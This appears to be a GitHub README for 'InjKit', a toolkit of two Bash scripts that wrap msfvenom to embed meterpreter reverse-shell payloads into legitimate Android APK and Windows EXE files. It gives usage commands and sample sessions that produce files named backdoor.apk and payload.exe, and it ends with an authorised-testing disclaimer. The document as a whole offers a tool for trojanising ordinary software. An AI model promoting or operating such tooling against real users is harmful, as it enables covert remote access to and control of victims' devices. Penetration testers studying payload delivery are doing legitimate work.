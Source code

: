 # InjKit


Payload Injector Toolkit (APK & EXE)

This toolkit provides two simple yet effective Bash scripts that allow you to inject meterpreter reverse shell payloads into clean APK or EXE files using msfvenom.


---

📁 Included Scripts

1. apk_injector.sh — Android APK Injector

Injects a reverse shell payload into a clean APK file using Metasploit’s msfvenom.

🔧 Features:

Simple interactive interface

Verifies APK file path before processing

Uses msfvenom to inject payload

Outputs a new APK file with embedded payload


🚀 Example Usage:

chmod +x apk_injector.sh
./apk_injector.sh

🖥️ Sample Terminal Interaction:

===============================
        APK Payload Injector   
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 4444
Enter the path to a clean APK file: /root/app.apk
Enter the output file name (e.g., evil.apk): backdoor.apk
[*] Injecting payload into /root/app.apk...
[+] Payload injected successfully! Saved as: backdoor.apk


---

2. exe_injector.sh — Windows EXE Injector

Injects a reverse shell payload into a clean EXE file using Metasploit’s msfvenom.

🔧 Features:

Interactive prompts for easy setup

Validates input EXE file path

Supports any EXE (e.g., notepad.exe) as a base

Uses msfvenom for injection

Generates new malicious EXE


🚀 Example Usage:

chmod +x exe_injector.sh
./exe_injector.sh

🖥️ Sample Terminal Interaction:

===============================
      EXE Payload Injector     
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 5555
Enter the path to a clean EXE file (e.g., notepad.exe): /root/notepad.exe
Enter the output file name (e.g., evil.exe): payload.exe
[*] Injecting payload into /root/notepad.exe...
[+] Payload injected successfully! Saved as: payload.exe


---

⚠️ Notes

These tools rely on msfvenom, part of the Metasploit Framework.

Make sure msfvenom is installed and accessible in your PATH.

Use within ethical boundaries and only in environments you are authorized to test.



---

💬 Feedback

Feel free to submit issues, improvements, or suggestions.
Made with ❤️ for educational and penetration testing use.

---
